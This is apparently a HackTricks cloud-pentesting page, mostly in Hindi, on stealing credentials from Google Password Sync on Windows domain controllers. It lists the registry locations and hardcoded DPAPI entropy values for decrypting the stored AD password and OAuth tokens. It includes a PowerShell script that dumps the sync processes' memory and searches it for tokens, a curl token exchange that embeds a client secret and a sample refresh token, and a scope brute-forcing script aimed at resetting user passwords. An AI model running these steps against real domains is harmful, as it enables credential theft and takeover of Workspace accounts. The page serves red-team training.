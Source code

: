 # GPS - Google Password Sync

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basic Information

यह वह बाइनरी और सेवा है जो Google उपयोगकर्ताओं के पासवर्ड को **AD** और Workspace के बीच **सिंक** में रखने के लिए प्रदान करता है। हर बार जब एक उपयोगकर्ता AD में अपना पासवर्ड बदलता है, तो इसे Google पर सेट किया जाता है।

यह `C:\Program Files\Google\Password Sync` में स्थापित होता है जहाँ आप इसे कॉन्फ़िगर करने के लिए बाइनरी `PasswordSync.exe` और `password_sync_service.exe` (सेवा जो चलती रहेगी) पा सकते हैं।

### GPS - Configuration

इस बाइनरी (और सेवा) को कॉन्फ़िगर करने के लिए, इसे **Workspace में एक सुपर एडमिन प्रिंसिपल तक पहुंच देना आवश्यक है**:

* Google के साथ **OAuth** के माध्यम से लॉगिन करें और फिर यह **पंजीकरण में एक टोकन (एन्क्रिप्टेड) स्टोर करेगा**
* केवल GUI के साथ डोमेन कंट्रोलर्स में उपलब्ध
* **Workspace उपयोगकर्ताओं को प्रबंधित करने** के लिए कुछ **GCP सेवा खाता क्रेडेंशियल्स** (json फ़ाइल) देना
* बहुत बुरा विचार क्योंकि ये क्रेडेंशियल्स कभी समाप्त नहीं होते और इसका दुरुपयोग किया जा सकता है
* Workspace पर SA को एक्सेस देना बहुत बुरा विचार है क्योंकि SA GCP में समझौता किया जा सकता है और Workspace पर पिवट करना संभव होगा
* Google इसे GUI के बिना डोमेन नियंत्रित करने के लिए आवश्यक करता है
* ये क्रेडेंशियल्स भी पंजीकरण में स्टोर होते हैं

AD के संबंध में, यह वर्तमान **एप्लिकेशन संदर्भ, गुमनाम या कुछ विशिष्ट क्रेडेंशियल्स** का उपयोग करने के लिए इंगित करना संभव है। यदि क्रेडेंशियल्स विकल्प चुना गया है, तो **उपयोगकर्ता नाम** एक फ़ाइल में **डिस्क** के अंदर स्टोर किया जाता है और **पासवर्ड** **एन्क्रिप्टेड** होता है और **पंजीकरण** में स्टोर होता है।

### GPS - Dumping password and token from disk

{% hint style="success" %}
Note that [**Winpeas**](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS/winPEASexe) is capable to detect **GPS**, get information about the configuration and **even decrypt the password and token**.
{% endhint %}

फ़ाइल **`C:\ProgramData\Google\Google Apps Password Sync\config.xml`** में यह संभव है कि **`baseDN`** की कुछ कॉन्फ़िगरेशन जैसे AD कॉन्फ़िगर किया गया है और **`username`** जिनके क्रेडेंशियल्स का उपयोग किया जा रहा है, पाया जा सके।

पंजीकरण में **`HKLM\Software\Google\Google Apps Password Sync`** में **एन्क्रिप्टेड रिफ्रेश टोकन** और **एन्क्रिप्टेड पासवर्ड** AD उपयोगकर्ता के लिए (यदि कोई हो) पाया जा सकता है। इसके अलावा, यदि टोकन के बजाय कुछ **SA क्रेडेंशियल्स** का उपयोग किया जाता है, तो यह भी संभव है कि उन्हें उस पंजीकरण पते में एन्क्रिप्टेड पाया जा सके। इस पंजीकरण के अंदर **मान** केवल **प्रशासकों** द्वारा **पहुँच योग्य** होते हैं।

एन्क्रिप्टेड **पासवर्ड** (यदि कोई हो) कुंजी **`ADPassword`** के अंदर है और इसे **`CryptProtectData`** API का उपयोग करके एन्क्रिप्ट किया गया है। इसे डिक्रिप्ट करने के लिए, आपको उसी उपयोगकर्ता होना चाहिए जिसने पासवर्ड सिंक कॉन्फ़िगर किया था और इस **entropy** का उपयोग करना चाहिए जब आप **`CryptUnprotectData`** का उपयोग करते हैं: `byte[] entropyBytes = new byte[] { 0xda, 0xfc, 0xb2, 0x8d, 0xa0, 0xd5, 0xa8, 0x7c, 0x88, 0x8b, 0x29, 0x51, 0x34, 0xcb, 0xae, 0xe9 };`

एन्क्रिप्टेड टोकन (यदि कोई हो) कुंजी **`AuthToken`** के अंदर है और इसे **`CryptProtectData`** API का उपयोग करके एन्क्रिप्ट किया गया है। इसे डिक्रिप्ट करने के लिए, आपको उसी उपयोगकर्ता होना चाहिए जिसने पासवर्ड सिंक कॉन्फ़िगर किया था और इस **entropy** का उपयोग करना चाहिए जब आप **`CryptUnprotectData`** का उपयोग करते हैं: `byte[] entropyBytes = new byte[] { 0x00, 0x14, 0x0b, 0x7e, 0x8b, 0x18, 0x8f, 0x7e, 0xc5, 0xf2, 0x2d, 0x6e, 0xdb, 0x95, 0xb8, 0x5b };`\
इसके अलावा, इसे **`0123456789abcdefghijklmnopqrstv`** शब्दकोश के साथ base32hex में भी एन्कोड किया गया है।

एंट्रॉपी मानों को टूल का उपयोग करके पाया गया। इसे **`CryptUnprotectData`** और **`CryptProtectData`** के लिए कॉल की निगरानी करने के लिए कॉन्फ़िगर किया गया था और फिर टूल का उपयोग `PasswordSync.exe` को लॉन्च और मॉनिटर करने के लिए किया गया जो कॉन्फ़िगर किए गए पासवर्ड और ऑथ टोकन को शुरू में डिक्रिप्ट करेगा और टूल **दोनों मामलों में उपयोग की गई एंट्रॉपी के लिए मान दिखाएगा**:

<figure><img src="../../../.gitbook/assets/telegram-cloud-photo-size-4-5782633230648853886-y.jpg" alt=""><figcaption></figcaption></figure>

ध्यान दें कि इन APIs के लिए कॉल के इनपुट या आउटपुट में **डिक्रिप्टेड** मान भी देखना संभव है (यदि किसी बिंदु पर Winpeas काम करना बंद कर दे)।

यदि पासवर्ड सिंक **SA क्रेडेंशियल्स के साथ कॉन्फ़िगर किया गया था**, तो यह भी पंजीकरण में कुंजी के अंदर **`HKLM\Software\Google\Google Apps Password Sync`** में स्टोर किया जाएगा।

### GPS - Dumping tokens from memory

GCPW के साथ की तरह, `PasswordSync.exe` और `password_sync_service.exe` प्रक्रियाओं की मेमोरी को डंप करना संभव है और आप रिफ्रेश और एक्सेस टोकन (यदि वे पहले से उत्पन्न हो चुके हैं) पा सकेंगे।\
मुझे लगता है कि आप AD कॉन्फ़िगर किए गए क्रेडेंशियल्स भी पा सकते हैं।

<details>

<summary>Dump <code>PasswordSync.exe</code> and the <code>password_sync_service.exe</code> processes and search tokens</summary>
```powershell
# Define paths for Procdump and Strings utilities
$procdumpPath = "C:\Users\carlos-local\Downloads\SysinternalsSuite\procdump.exe"
$stringsPath = "C:\Users\carlos-local\Downloads\SysinternalsSuite\strings.exe"
$dumpFolder = "C:\Users\Public\dumps"

# Regular expressions for tokens
$tokenRegexes = @(
"ya29\.[a-zA-Z0-9_\.\-]{50,}",
"1//[a-zA-Z0-9_\.\-]{50,}"
)

# Show EULA if it wasn't accepted yet for strings
$stringsPath

# Create a directory for the dumps if it doesn't exist
if (!(Test-Path $dumpFolder)) {
New-Item -Path $dumpFolder -ItemType Directory
}

# Get all Chrome process IDs
$processNames = @("PasswordSync", "password_sync_service")
$chromeProcesses = Get-Process | Where-Object { $processNames -contains $_.Name } | Select-Object -ExpandProperty Id

# Dump each Chrome process
foreach ($processId in $chromeProcesses) {
Write-Output "Dumping process with PID: $processId"
& $procdumpPath -accepteula -ma $processId "$dumpFolder\chrome_$processId.dmp"
}

# Extract strings and search for tokens in each dump
Get-ChildItem $dumpFolder -Filter "*.dmp" | ForEach-Object {
$dumpFile = $_.FullName
$baseName = $_.BaseName
$asciiStringsFile = "$dumpFolder\${baseName}_ascii_strings.txt"
$unicodeStringsFile = "$dumpFolder\${baseName}_unicode_strings.txt"

Write-Output "Extracting strings from $dumpFile"
& $stringsPath -accepteula -n 50 -nobanner $dumpFile > $asciiStringsFile
& $stringsPath -n 50 -nobanner -u $dumpFile > $unicodeStringsFile

$outputFiles = @($asciiStringsFile, $unicodeStringsFile)

foreach ($file in $outputFiles) {
foreach ($regex in $tokenRegexes) {

$matches = Select-String -Path $file -Pattern $regex -AllMatches

$uniqueMatches = @{}

foreach ($matchInfo in $matches) {
foreach ($match in $matchInfo.Matches) {
$matchValue = $match.Value
if (-not $uniqueMatches.ContainsKey($matchValue)) {
$uniqueMatches[$matchValue] = @{
LineNumber = $matchInfo.LineNumber
LineText   = $matchInfo.Line.Trim()
FilePath   = $matchInfo.Path
}
}
}
}

foreach ($matchValue in $uniqueMatches.Keys) {
$info = $uniqueMatches[$matchValue]
Write-Output "Match found in file '$($info.FilePath)' on line $($info.LineNumber): $($info.LineText)"
}
}

Write-Output ""
}
}
```
</details>

### GPS - रिफ्रेश टोकन से एक्सेस टोकन उत्पन्न करना

रिफ्रेश टोकन का उपयोग करके, इसे और निम्नलिखित कमांड में निर्दिष्ट क्लाइंट आईडी और क्लाइंट सीक्रेट का उपयोग करके एक्सेस टोकन उत्पन्न करना संभव है:
```bash
curl -s --data "client_id=812788789386-chamdrfrhd1doebsrcigpkb3subl7f6l.apps.googleusercontent.com" \
--data "client_secret=4YBz5h_U12lBHjf4JqRQoQjA" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03pJpHDWuak63CgYIARAAGAMSNwF-L9IrfLo73ERp20Un2c9KlYDznWhKJOuyXOzHM6oJaO9mqkBx79LjKOdskVrRDGgvzSCJY78" \
https://www.googleapis.com/oauth2/v4/token
```
### GPS - Scopes

{% hint style="info" %}
ध्यान दें कि रिफ्रेश टोकन होने के बावजूद, आप एक्सेस टोकन के लिए किसी भी स्कोप का अनुरोध नहीं कर सकते क्योंकि आप केवल उन **स्कोप का अनुरोध कर सकते हैं जो उस एप्लिकेशन द्वारा समर्थित हैं जहां आप एक्सेस टोकन उत्पन्न कर रहे हैं**।

इसके अलावा, रिफ्रेश टोकन हर एप्लिकेशन में मान्य नहीं है।
{% endhint %}

डिफ़ॉल्ट रूप से GPS के पास उपयोगकर्ता के रूप में हर संभावित OAuth स्कोप तक पहुंच नहीं होगी, इसलिए निम्नलिखित स्क्रिप्ट का उपयोग करके हम उन स्कोप को खोज सकते हैं जिन्हें `refresh_token` के साथ `access_token` उत्पन्न करने के लिए उपयोग किया जा सकता है:

<details>

<summary>Bash script to brute-force scopes</summary>
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-Z/\._\-]*' | sort -u | while read -r scope; do
echo -ne "Testing $scope           \r"
if ! curl -s --data "client_id=812788789386-chamdrfrhd1doebsrcigpkb3subl7f6l.apps.googleusercontent.com" \
--data "client_secret=4YBz5h_U12lBHjf4JqRQoQjA" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03pJpHDWuak63CgYIARAAGAMSNwF-L9IrfLo73ERp20Un2c9KlYDznWhKJOuyXOzHM6oJaO9mqkBx79LjKOdskVrRDGgvzSCJY78" \
--data "scope=$scope" \
https://www.googleapis.com/oauth2/v4/token 2>&1 | grep -q "error_description"; then
echo ""
echo $scope
echo $scope >> /tmp/valid_scopes.txt
fi
done

echo ""
echo ""
echo "Valid scopes:"
cat /tmp/valid_scopes.txt
rm /tmp/valid_scopes.txt
```
</details>

और यह वह आउटपुट है जो मुझे लेखन के समय मिला:
```
https://www.googleapis.com/auth/admin.directory.user
```
जो वही है जो आपको मिलता है यदि आप कोई दायरा निर्दिष्ट नहीं करते हैं।

{% hint style="danger" %}
इस दायरे के साथ आप **एक मौजूदा उपयोगकर्ता का पासवर्ड संशोधित कर सकते हैं ताकि विशेषाधिकार बढ़ सके**।
{% endhint %}

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में शामिल हों या **हमें** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर फॉलो करें।**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PR सबमिट करें।

</details>
{% endhint %}
